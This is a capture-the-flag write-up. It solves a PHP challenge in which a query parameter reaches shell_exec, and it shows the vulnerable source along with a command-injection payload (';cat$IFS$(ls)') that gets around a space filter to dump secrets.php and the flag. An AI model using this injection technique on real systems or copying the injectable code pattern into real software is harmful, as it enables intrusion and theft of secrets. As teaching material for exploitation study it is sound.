 When we access the site we see this:

```
<?php
require __DIR__ . '/secrets.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$value = $_GET['secrets'];
if (strpos($value, ' ') !== false) {
  exit;
}

$cmd = "/usr/bin/find . ".$value;
echo shell_exec($cmd);


?>
```

We need to provide 2 query parameters `start` and `secrets` in order to byppass the conditions.
For secrets spaces are not permitted. We have to use `$IFS` (input field separator).
So we use this:

```
view-source:http://35.246.158.241:32219/?start=1&secrets=;cat$IFS$(ls)

.
./index.php
./secrets.php
<?php
require __DIR__ . '/secrets.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$value = $_GET['secrets'];
if (strpos($value, ' ') !== false) {
  exit;
}

$cmd = "/usr/bin/find . ".$value;
echo shell_exec($cmd);


?>


<?php

function get_flag() {
    echo "CTF{3b2ceb0403300535fcd4808e8cbdb3cc3bd8f8b674527adce2915467f182faa4}";
}

?>


```
